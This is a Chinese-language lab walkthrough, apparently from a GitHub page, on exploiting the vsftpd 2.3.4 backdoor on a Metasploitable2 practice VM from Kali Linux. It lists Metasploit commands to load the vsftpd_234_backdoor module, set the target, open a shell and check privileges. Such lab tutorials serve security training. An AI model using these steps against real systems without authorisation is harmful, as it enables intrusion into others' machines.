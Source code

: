 ### 实践

* **实验环境**

攻击机：kali linux               IP：192.168.79.128
目标机：metaploitable2    IP：192.168.79.130

![Vsftpd (2)](漏洞利用\Vsftpd (2).png)

用户名：msfadmin/user  密码msfadmin/user
metaploitable2 下载地址：<https://sourceforge.net/projects/metasploitable/files/Metasploitable2/>

* **步骤**

先试验攻击机是否能与目标机ping通

![Vsftpd (3)](漏洞利用\Vsftpd (3).png)

#### **使用msf进行漏洞利用**

* **第一步**：打开kali终端，输入指令：

  ~~~bash
  msfconsole
  ~~~

  ![Vsftpd (15)](漏洞利用\Vsftpd (15).png)

* **第二步**：输入以下命令启动漏洞利用模块，提示符就会提示进入该路径下

  ~~~bash
  use exploit/unix/ftp/vsftpd_234_backdoor
  ~~~

* **第三步**：设置目标主机的ip地址

  ~~~bash
  set RHOST 目标主机ip
  ~~~

* **第四步**：开始向目标主机攻击，攻击成功后，建立shell会话

  ~~~
  exploit
  ~~~

  ![Vsftpd (1)](漏洞利用\Vsftpd (1).jpg)

* **第五步**：在终端中输入以下命令，查看获得权限

  ~~~bash
  id
  whoami
  hostname
  ~~~
  
  ![Vsftpd (16)](漏洞利用\Vsftpd (16).png)

